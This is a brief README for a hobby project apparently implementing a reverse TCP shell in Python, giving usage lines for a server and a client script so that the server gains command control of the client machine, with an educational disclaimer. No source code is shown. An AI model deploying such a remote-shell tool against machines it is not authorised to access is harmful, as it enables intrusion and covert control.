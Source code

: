 # Reverse-TCP-Shell
Implementation of Reverse TCP Shell from scratch. 

# Author Aswin Raj Kharel

Description:
	
	server.py is run on the server computer
	client.py is run on the client computer

Usage:
	
	On Server Computer:
		python server.py [port] 	# If port not specified 8080 is assumed
	
	On Client Computer:
		python client.py serverIP serverPort
	
	Once the connection is established, the server computer will get a shell on their console. Type system specific command to control the client computer

Disclaimer:

	Code is for Demo/Educational purposes only. The author is not responsible for any unethical actions caused by the use of this code.

